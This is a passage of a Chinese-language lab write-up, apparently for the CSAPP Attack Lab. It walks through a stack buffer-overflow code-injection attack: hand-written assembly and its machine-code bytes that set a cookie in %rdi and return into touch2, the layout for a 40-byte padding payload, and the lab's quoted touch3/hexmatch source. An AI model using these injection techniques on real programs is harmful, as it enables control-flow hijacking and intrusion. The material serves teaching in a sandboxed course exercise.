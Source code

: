    ```c
   ```

2. 需要将 cookie 值存入 %rdi 寄存器作为第一个参数
3. 攻击思路：注入能够设置 %rdi 并跳转到 touch2 的代码

#### 攻击实现
1. 编写汇编代码：
   ```assembly
   movq $0x59b997fa, %rdi   /* 设置 cookie 值到 %rdi */
   pushq $0x4017ec          /* touch2 的地址 */
   retq                     /* 返回，将跳转到 touch2 */
   ```

2. 使用 GCC 和 objdump 将其转换为机器码：
   ```
   48 c7 c7 fa 97 b9 59     /* movq $0x59b997fa, %rdi */
   68 ec 17 40 00           /* pushq $0x4017ec */
   c3                       /* retq */
   ```

3. 构造最终 Payload：
   - 注入代码
   - 填充至 40 字节
   - 注入代码的起始地址 (栈顶地址，通过 GDB 调试获取)

### Phase 3: 字符串参数的代码注入攻击

#### 目标
修改返回地址到 `touch3()` 函数，并传入字符串形式的 cookie 值。

#### 技术分析
1. 分析 `touch3()` 函数和 `hexmatch()` 函数：
   ```c
   /* Compare string to hex represention of val */
   int hexmatch(unsigned val, char *sval) {
     char cbuf[110];
     char *s = cbuf + random() % 100;
     sprintf(s, "%.8x", val);
     return strncmp(sval, s, 9) == 0;
   }

   void touch3(char *sval) {
     vlevel = 3;
     if (hexmatch(cookie, sval)) {
       printf("Touch3!: You called touch3(\"%s\")\n", sval);
       validate(3);
     } else {
       printf("Misfire: You called touch3(\"%s\")\n", sval);
       fail(3);
     }
     exit(0);
   }
   ```
